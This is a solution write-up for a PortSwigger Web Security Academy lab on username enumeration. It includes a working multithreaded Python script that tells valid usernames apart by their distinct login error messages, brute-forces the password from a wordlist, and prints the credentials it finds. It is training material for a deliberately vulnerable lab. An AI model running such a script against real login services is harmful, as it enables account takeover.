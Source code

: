 # Lab: Username enumeration via different responses
## Task
This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

[Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)  
[Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)  
To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Solution
A POST request in the `/login` page is as follows:  

![image](https://user-images.githubusercontent.com/44528004/130211783-ec1aee8c-e9a0-48b2-a78e-0919ddb1a57e.png)  

Here, I wrote a script to brute force username and password of the valid username based on 2 facts:  
- An incorrect username causes the program to return `Invalid username!`.
- An incorrect password of a valid username causes the program to return `Incorrect password`.
- These 2 messages are enclosed in the `<p class="is-warning"></p>` tag.  

Script:
```python
import requests
from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor

URL = 'https://ac381f921e05a49a800e14bc006c00c2.web-security-academy.net/login'

with open('usernames.txt', 'r') as f:
    usernames = f.readlines()

usernames = list(map(lambda x: x.strip(), usernames))

with open('passwords.txt', 'r') as f:
    passwords = f.readlines()

passwords = list(map(lambda x: x.strip(), passwords))

true_username = None
true_password = None


def brute_username(username):
    resp = requests.post(url=URL, data={'username': username, 'password': 'test'})
    soup = BeautifulSoup(resp.text, 'html.parser')
    if soup.find(class_='is-warning').text != 'Invalid username':
        return username
    else:
        return ''


def brute_password(password):
    resp = requests.post(url=URL, data={'username': true_username, 'password': password})
    soup = BeautifulSoup(resp.text, 'html.parser')
    try:
        warning = soup.find(class_='is-warning').text
        if warning == 'Incorrect password':
            return ''
        else:
            return password
    except:
        return password


with ThreadPoolExecutor(max_workers=10) as executor:
    res = list(executor.map(brute_username, usernames))
    true_username = ''.join(res)

with ThreadPoolExecutor(max_workers=10) as executor:
    res = list(executor.map(brute_password, passwords))
    true_password = ''.join(res)

print(true_username, true_password)
```

Run script:
```
E:\PortSwigger\venv\Scripts\python.exe E:/PortSwigger/brute_forcer.py
application baseball
```

As during bruteforcing, the script also sends a valid credential to the program and thereby receiving the `Congratulations, you solved the lab!` message.  

![image](https://user-images.githubusercontent.com/44528004/130212310-7c87e9ad-0c92-4529-b0f8-10e6dcece762.png)
> Solved!
